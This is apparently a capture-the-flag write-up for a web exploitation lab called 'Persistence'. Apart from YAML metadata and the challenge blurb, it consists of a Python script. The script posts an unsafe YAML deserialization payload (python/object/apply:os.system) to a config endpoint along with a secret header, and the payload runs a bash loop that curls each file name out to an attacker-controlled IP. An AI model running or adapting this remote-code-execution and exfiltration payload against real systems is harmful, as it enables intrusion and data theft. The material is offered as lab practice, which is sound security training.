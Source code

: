 ```yaml
---
title: Persistence
category: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 60
solves: -1
flag: THM{REDACTED}
---
```

> After the notorious malware strike on the Virelia Water Control Facility, phantom alerts and erratic sensor readings plague a system that was supposed to be fully remediated.
>
> As a Black Echo red-team specialist, you must penetrate the compromised portal, unravel its hidden persistence mechanism, and neutralise the backdoor before it can be reactivated.

---

```py
import requests

payload = (
    '!!python/object/apply:os.system ["bash -c '
    "'for i in $(ls); do curl http://10.17.37.98/$i; done'\"]"
)

headers = {"X-FTW": "secr3tFTW192d2390", "Content-Type": "application/x-yaml"}

res = requests.post(
    "http://10.10.232.80:8080/config/update", data=payload, headers=headers
)
print(res.status_code, res.text)
```
